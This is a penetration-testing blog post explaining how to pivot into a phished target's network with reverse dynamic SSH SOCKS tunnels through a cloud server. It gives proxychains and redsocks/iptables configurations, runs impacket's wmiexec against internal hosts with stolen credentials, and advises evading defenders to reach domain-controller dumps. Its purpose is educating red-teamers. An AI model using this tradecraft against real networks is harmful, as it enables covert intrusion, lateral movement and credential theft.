



## Pwning with Portals: How Rick Sanchez Dumps DITs
---

### Pivoting, you know what it is, but are you using it as much as you could?

Some info about how I've been using pivoting on pentesting engagements to almost completely replace my use of and reliance on native C2 functionality

Consider this scenario: you have just sent a phishing email to a target, the stars align, and you’ve obtained a shell back. You have internal access to the target’s network and now you want to begin establishing persistence, move laterally, and do the voodoo that you do. Let’s take a pretty standard enumeration tactic, maybe you want to  [kerberoast](https://adsecurity.org/?p=2293) the domain of the target. A couple potential options await you, what follows is by no means an exhaustive list:

* Use tooling contained within whatever RAT (C2,implant,payload) you are using assuming this functionality exists natively
* Drop a script/binary onto the infected host's disk and run it from there, probably going to be a powershell script
* Download a binary or script to the host via some other method, maybe using a [LOLbin](https://lolbas-project.github.io/)  like certutil
* Powershell IEX

At a glance, there are some obvious pros and cons to each of these techniques that stand out, and they can all be effective in their own way. But there is a completely underrated alternative that can be used for pretty much any network based attack. Generally pivoting is brought up and used when you’ve no other options to access a segment, such as a jumpbox or any other dual-homed host on an "internal" engagment, but pivoting can be useful in the early stages of a red team assessment as well as internals. Pivoting is not only useful as a means by which to access otherwise inaccessible subnets within a private network, but also as a means to expand your testing capabilities externally. As you will soon see, I will be pushing this technique to it’s limits in order to obtain the coveted, powershell-through-socks state.

There’s nothing wrong with the methods I've listed up there funcionally, and in some couple ways (I’ll get to later) they can even be better. However a target’s security posture will vary a great deal, and in a lot of environments, the LAST thing you want to do is drop a binary to disk, or run powershell (becoming more and more dangerous). This sucks because powershell can do a lot of bad stuff really well, and binz are "fun 2 run", but with network pivoting we may be able to have our cake and eat it too.,
Not just a gimmick to get around your client’s web filter while on-site

Cool story you may not have heard: You can perform basically ALL network-based attacks to a client’s network externally (i.e. through a C2).

#### Positive implications:

* You do not have to drop any files to disk
* You do not need to be so picky with your C2 choice, which means more potential avenues of attack
* You do not need to spend time writing custom functionality for each and every attack you use for the payload you are using
* You do not need to run powershell on the infected host, which is a basically a blue team christmas tree right now in 2020
* In fact, you don't need to run anything other than your initial payload on the host everything after that is just smoke in the wires

#### Negative Implications:

* A lot more network traffic is generated unless you babysit the polling interval (more on this below)
* Without a very special payload, you will not be able to leverage the authentication material present in the payload's process to perform attacks as the compromised user
* If you hate linux you are going to have a bad time, but if this is the case, then it sounds as though you're already having a bad time and just don't realize it

### Y s0 negative?

Let me address these negative aspects in a little more detail. The first of the drawbacks to pivoting like a zumba instructor is that in order for a stable stream of data to be exchanged, the polling interval needs to be set to 0. However if you only turn your interval to “interactive” when you’re performing these relevant attacks, then this issue shouldn’t be an... issue. This seems like a pain but if you already have your initial enumeration and persistence procedures scripted for rapid execution then this is a non-issue and you can turn the polling to interactive, do your thing, then knock it back to whatever makes you feel comfortable. It's generally good practice to have these sorts of things in order this way for any red team engagement.

The second issue I've listed is that when an unsuspecting user opens your generous gift and unleashes doom & gloom on their company’s network, your payload is run by the user and obtains their sweet sweet privileges. With these privileges, your payload is able to perform attacks and make queries as (presumably) an authenticated domain user, even if you’ve yet to obtain the user’s plain-text credentials. With these magic powers, your process can run kerberoast, query users from AD, or just whatever a normal (presumably unprivileged) user would be able perform without entering any credentials. Now if you were to write a payload that allowed you to leverage these same privileges for proxied requests, then this could also be avoided. Otherwise, you are basically waiting until you get some valid user credentials. Though in the case you are going to be phishing them, maybe ask for creds too, or just phish someone else. The third issue is not so much an issue with the technique, more with the limitation of available tools and their compatibilty for doing these sorts of attack from a Windows host. So as it usually is in this line of work, the issue lies Winderp. I recommend debian. But you can do most of this with a linux VM, except maybe the last part, though I'll touch on that.
Thinking with portals

Finally I’m getting to the actual technique. Pivoting is all about tunnels, more specifically, socks tunnels, even more specifically: dynamic or reverse dynamic socks tunnels. In case it's been a while here's a short breakdown.
Dynamic socks tunnels:
```
ssh -D 8888 user@host
```
This is a normal (non reverse) socks, tunnel, you’ve seen it before. It will bind to your local port 8888 and forward all traffic you send to it to the SSH server so the SSH server can send it on your behalf.

The one you may not know about notice I did not put any IPs, I just used a port:
```
ssh -R 8888 user@host
```

And it’s bidirectional, pinky swear, check it out:   
   
What’s the difference here? The client/victim is basically giving the remote server a means by which the remote server can proxy IT’s traffic through the client/victim/payload/whatever’s system, i.e. access to it’s own network.

Why does a linux ssh client matter? There is a signed, OpenSSH Windows executable that contains the exact same functionality (link below), starting to get good? The SSH client is not the only method by which to facilitate this sort of maneuverability. Here are some additional options off the top of my head:

* [Cobalstrike's](https://www.cobaltstrike.com/cgi-bin/purchase.cgi) "socks" command which binds the specified port on the system that the teamserver runs on
* [Rpivot](https://github.com/klsecservices/rpivot)
* [OpenSSH Windows](https://github.com/PowerShell/Win32-OpenSSH/releases)
* Possibly more, that I do not know about, google is your friend

If you don’t like any of those options, the socks protocol is not super complicated, basically a few extra bytes of metadata: [Socks5 RFC](https://tools.ietf.org/html/rfc1928), now you can implement it into anything.

Cool how do I use it?
You’ve already seen one example, proxychains, you probably already knew about that one though. Below i’ll show you that it can work with basically anything else, even the entire impacket suite:

Portal shellz (Cloud host with a shell on a VM on home network):


Dumping the DIT like rick sanchez:


While I could go into detail on how to apply this directly to a specific C2, that isn't what this post is about, pivoting is a networking concept that supercedes a single brand of C2 so I want to keep this general. Instead I'll try to go into a bit more detail on how to conceptually apply this to an engagement, since I know most people are not huge fans of networking.
Back to the ascii drawing board:

```
[My attack laptop] ---ssh---> [Cloud Server] <---reverse dynamic socks tunnel---[Compromised Host]  

            ssh  -D 7777  user@cloudserv               ssh -R 8080 user@cloudserv 

```
Great, so how would I setup proxychains to leverage this?

```
# Contents of /etc/proxychains.conf, truncated for brevity
[ProxyList]
socks4  127.0.0.1 7777
socks4  127.0.0.1 8080 # from the perspective of the second hop (cloudserv), this port is on 127.0.0.1
```

Then we can simply run:

```
proxychains wmiexec.py domain/user:"password"@internal_ip
```

Then we get the following result:


Hopefully a practical example like this helps to clarify some of what is going on and gives you a foundation with which to play around with things until they get working.
### This horse isn't dead yet, let's keep beating

Python scripts of basically any kind can go through proxychains, extremely useful but we can milk this further, Now let’s do something you never knew you always wanted to do: Powershell over socks, even without native socks support provided by the script/application.
It is true that a few powershell utilities are created with socks in mind, but those are few and far between, we have a portal, and some traffic, so we’re going to make it do what we want.

Enter: Redsocks:  
[Redsocks](https://github.com/darkk/redsocks) is a program that when given a proper iptables configuration, and a socks connection, will ferry ALL traffic across the proxy (or proxies) like your own little network Charon.
Most of this setup info is straight from the github linked above as well as from this article. I will be doing a slightly more "minimalist" setup which will be much less granular, so if you want more control, check out those links. The standard setup for my host (Debian Buster) goes something like this: To install:
`sudo apt install redsocks -y`
Back up your old iptables rules, do this step, and if you’re not root (which you shouldn't be), you WILL need sudo. I stress this because otherwise it will output nothing and still not backup your rules, and you're toast if something goes wrong or you have some complicated rules in place provided by other applications like VMware or Docker.
```
sudo iptables-save > iptables_backup.rules
```

Setup new chain and exclusions, these exclusions are pretty standard as they are simply the network ranges that are reserved for private networks. YOU WILL NEED TO CHANGE THESE by removing the lines corresponding to the network ranges being used by your internal client.

For example: if the client's network is using 192.168.10.0/24 and you're using 192.168.1.0/24 you will need to change the 192.168.0.0/16 exclusion in the list below to 192.168.1.0/24 so as to avoid excluding traffic destined for the client network while still maintaining the exclusions for your own network.

```
# force all port 443 traffic through proxy
sudo iptables-save > backingthemupanyways.rules # i put this here anyways, you're welcome
sudo iptables -t nat -N REDSOCKS
sudo iptables -t nat -A REDSOCKS -d 0.0.0.0/8 -j RETURN
sudo iptables -t nat -A REDSOCKS -d 10.0.0.0/8 -j RETURN
sudo iptables -t nat -A REDSOCKS -d 127.0.0.0/8 -j RETURN
sudo iptables -t nat -A REDSOCKS -d 169.254.0.0/16 -j RETURN
sudo iptables -t nat -A REDSOCKS -d 172.16.0.0/12 -j RETURN
sudo iptables -t nat -A REDSOCKS -d 192.168.0.0/16 -j RETURN
sudo iptables -t nat -A REDSOCKS -d 224.0.0.0/4 -j RETURN
sudo iptables -t nat -A REDSOCKS -d 240.0.0.0/4 -j RETURN
```
# force all port 443 traffic through proxy
Port 12345 is the default port that redsocks listens on, this is not your socks proxy port, anywho, this can be defined/changed in /etc/redsocks.conf, just in case you’re one of those need-to-have-a-special-port-number people. No matter what port you use, you need to run this with the port that is specified in the /etc/redsocks.conf file:
```
sudo iptables -t nat -A REDSOCKS -p tcp -j REDIRECT --to-ports 12345
```

Within the /etc/redsocks.conf there is a section called “redsocks” you can think of this part as the chain of proxies much like the config file for proxychains.

```
# force all port 443 traffic through proxy
redsocks {
	/* `local_ip' defaults to 127.0.0.1 for security reasons,
	 * use 0.0.0.0 if you want to listen on every interface.
	 * `local_*' are used as port to redirect to.
	 */
	local_ip = 127.0.0.1;
	local_port = 12345;

	// `ip' and `port' are IP and tcp-port of proxy-server
	// You can also use hostname instead of IP, only one (random)
	// address of multihomed host will be used.
	ip = 127.0.0.1;  # <------------ change this to your proxy settings
	port = 7777;     # <------------ change this port to whatever to your proxy 

```

I truncated the rest of the file for brevity, since nothing else really matters for this setup, but keep in mind there are some additional features and instructions for things like per-user traffic redirection, random proxy swapping, and load balancing.

After you change this configuration information, you need to reload the service with something like:
`sudo service redsocks force-reload`
and then you should be good to go for configuring redsocks

Now it’s time to redirect all HTTP and HTTPS outgoing packets through redsocks, This is the make-or-break part, these rules tell iptables what traffic actually gets redirected through the redsocks service. I’ve included a few examples below:

```
# force all port 443 traffic through proxy
iptables -t nat -A OUTPUT -p tcp --dport 443 -j REDSOCKS
# force all port 80 traffic through proxy
iptables -t nat -A OUTPUT -p tcp --dport 80 -j REDSOCKS
# force ALL traffic through proxy, this was the one used in my case
iptables -t nat -A OUTPUT -p tcp -d 0/0 -j REDSOCKS
```

# force all port 443 traffic through proxy

Now you can test your implementation with
`curl ifconfig.me`
or whatever IP identifier site you like. If everything is working it may be a good idea to save the current rules using

```
sudo iptables-save > redsocks.rules
```
or if nothing is working you can restore your previous configuration with
`sudo iptables-restore iptables_backup.rules`
from step one…. because you did step one right?

And now you can use these two “rules” files to turn the traffic redirection off and on. Cool so what did that get us? Well start your Windows VM that I know you have, (mine has the network interface set to NAT, if that helps you at all), and go do stuff. What should happen is that while your traffic is being routed by your host OS, iptables will "catch" it and the traffic should go through redsocks. Below I have an example of running powershell through the socks proxy without using any special proxy configurations to make this happen.


Unfortunately, I do not have active directory domain in the cloud within which to demonstrate but the idea is the same, all traffic is being directed in this fashion:

```
(redsocks) localhost:12345 -> (locally bound SSH tunnel) localhost:7777 -> destination.
```

As a result, any and all traffic that is sent by the Windows host, is being sent through redsocks.

*additional options:*
There is at least one other tool I know of: [badvpn](https://github.com/ambrop72/badvpn) that can pull this off as well, however you will be trading the creation of iptables rules for creating tunnel interfaces and manually assigning routes, as well as building from source. I choose redsocks because you can quickly backup and store iptable rules with iptables-restore and iptables-save. Something to consider when picking your poison. 

Hopefully this is useful,

   deadjakk
